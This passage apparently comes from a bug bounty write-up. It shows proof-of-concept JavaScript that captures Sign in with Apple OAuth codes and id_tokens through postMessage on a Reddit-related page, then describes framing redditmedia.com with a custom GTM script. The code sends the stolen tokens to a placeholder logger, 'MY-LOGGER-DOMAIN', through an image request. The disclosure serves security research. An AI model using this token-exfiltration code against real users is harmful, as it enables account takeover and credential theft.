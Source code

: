 ```html
    }
    document.getElementById('start').innerHTML = '';
}
if (location.search && location.search.split('state=')[1].split('&')[0]) {
    launch(location.search.split('state=')[1].split('&')[0], location.search.indexOf('monitor') !== -1);
}
window.onmessage = function(e) {
    if (e.data === 'stopinject') {
        console.log('frame injected');
        clearInterval(inj)
    }
    if (e.data.indexOf('id_token') !== -1 || e.data.indexOf('code') !== -1) {
        payload = JSON.parse(e.data);
        data = payload.hash.replace('state=state=', 'state=');
        var state = data.split('state=')[1].split('&')[0];
        var code = data.split('code=')[1].split('&')[0];
        var id_token = data.split('id_token=')[1].split('&')[0];
        var payload = JSON.stringify({method:'oauthDone',data:{authorization:{code:code,id_token:id_token,state:state}}});

        document.getElementById('fr').innerHTML = 'Attacker now have the code from Apple:<br />';
        var p = document.createElement('pre');
        p.innerText = payload;
        document.getElementById('fr').appendChild(p);

        var s = document.createElement('img');
        s.src = 'https://MY-LOGGER-DOMAIN/reddit/log.php?' + payload;
        document.body.appendChild(s);   
    }
}

</script>


</body>
</html>
```

What this page will do is:

1. Ask the attacker to prepare the `state`-param from its own browser. This is to taint the victim's code with the state so that the attacker can then sign in. This will also start to monitor the log asking for any code from the state provided.

{F1726829}

{F1726831}

2. Load the `https://www.redditmedia.com` with my own custom GTM into an iframe. It is not restricted to be framed in any way, anyone can load it.
3. The GTM-script will load, it looks like this:
